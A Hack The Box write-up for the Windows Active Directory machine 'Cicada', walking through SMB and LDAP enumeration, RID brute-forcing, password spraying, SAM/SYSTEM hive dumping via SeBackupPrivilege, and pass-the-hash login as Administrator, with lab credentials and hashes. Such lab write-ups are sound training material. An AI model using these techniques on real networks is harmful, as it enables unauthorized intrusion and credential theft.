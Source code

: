```yaml
---
title: HTB - Cicada
description: The Cicada is an Easy HTB season 6 machine involves exploiting a Windows Active Directory setup.
author: mashhood
date: 2024-09-30 12:12:00 +0800
description: 
categories: [Writeup]
tags: [htb]
media_subpath: '/assets/img/posts/20240930/'
---
```


![Desktop View](Cicada.webp){: width="600" height="488" }

The Cicada is an Easy HTB season 6 machine involves exploiting a Windows Active Directory setup. By enumerating SMB shares, we gradually gain access to sensitive information. After finding passwords in shared files and an LDAP domain dump, we escalate privileges to gain full control of the system.

## Enumeration

After performing an initial Nmap scan, several interesting services were identified:

```
─(kali㉿kali)-[~/Desktop]  
└─$nmap 10.10.11.35 -sC -sV --min-rate 1000 -oN nmap-cicada.txt 
# Nmap 7.94SVN scan initiated Mon Sep 30 01:31:37 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV --min-rate 1000 -oN nmap-cicada.txt 10.10.11.35
Nmap scan report for 10.10.11.35
Host is up (0.20s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-30 12:32:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, 
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)

Host script results:
| smb2-time: 
|   date: 2024-09-30T12:32:49
|_  start_date: N/A
|_clock-skew: 7h00m15s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

There is no web based technology available here. So, with SMB (`445/tcp`) and LDAP (`389/tcp`, `636/tcp`) available, it’s worth investigating these services further. Since nmap shows that the Domain name of the target system is cicada.htb, we will add it to our `/etc/hosts` file
```
─(kali㉿kali)-[~/Desktop]  
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.35     cicada.htb
```

## SMB Enumeration

Using `smbclient`, we attempt to list shares:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ smbclient -L 10.10.11.35
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
DEV             Disk
HR              Disk
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

The interesting shares here are `DEV` and `HR`. The `HR` share have a file named `Notice from HR.txt` . 
```
─(kali㉿kali)-[~/Desktop]  
└─$ smbclient \\\\10.10.11.35\\HR -N
smb: \> ls
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024
```
The password `Cicada$M6Corpb*@Lp#nZp!8` for the new employee's account was found within this document.
So, we attempt to gather usernames via `crackmapexec` by brute-forcing the RID which reveals several users:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ crackmapexec smb 10.10.11.35 -u anonymous -p "" --rid-brute

1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1601: CICADA\emily.oscars (SidTypeUser)
```

We create a wordlist with the found usernames and attempt to brute force credentials using `crackmapexec` which reveals that the credential we discovered before is for the user **Michael Wrightson**:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ crackmapexec smb 10.10.11.35 -u users-cicada.txt -p pass.txt

SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

```
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

## LDAP Enumeration

Using Michael Wrightson’s credentials, we perform an LDAP domain dump:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

From the domain dump, we discover **David Orelious’s password** in the description section of domain users:

![Desktop View](/cicada-ldap.webp)

```
david.orelious:aRt$Lp#7t*VQ!3
```

## SMB Access - DEV Share

With David Orelious’s credentials, we access the **DEV** SMB share:

```bash
smbclient //10.10.11.35/DEV -U david.orelious
```

In the **DEV** share, we find a **Backup_script.ps1** file, which contains another set of credentials for **Emily Oscars**:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

```
emily.oscars:Q!3@Lp#M6b*7t*Vt
```

## Privilege Escalation

#### Evil-WinRM Access
Using Emily Oscar’s credentials, we establish a connection via `evil-winrm`:

```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

Once connected, we check the privileges with `whoami /priv`. Here, we notice that Emily has high-privilege tokens enabled:

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

####  Dumping SAM and SYSTEM

With **SeBackupPrivilege** enabled, we can use it to dump the **SAM** and **SYSTEM** registry hives to extract hashes for privilege escalation.
Copy the `sam` file and `system` to a folder with these command and download it to the attacker machine.
``` powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
Then use `pypykatz` to extract the hash from these files.
```bash
pypykatz registry --sam sam system
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

With this hash we can login as Administrator using `evil-winrm`.
```
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

# Reference
<https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege>
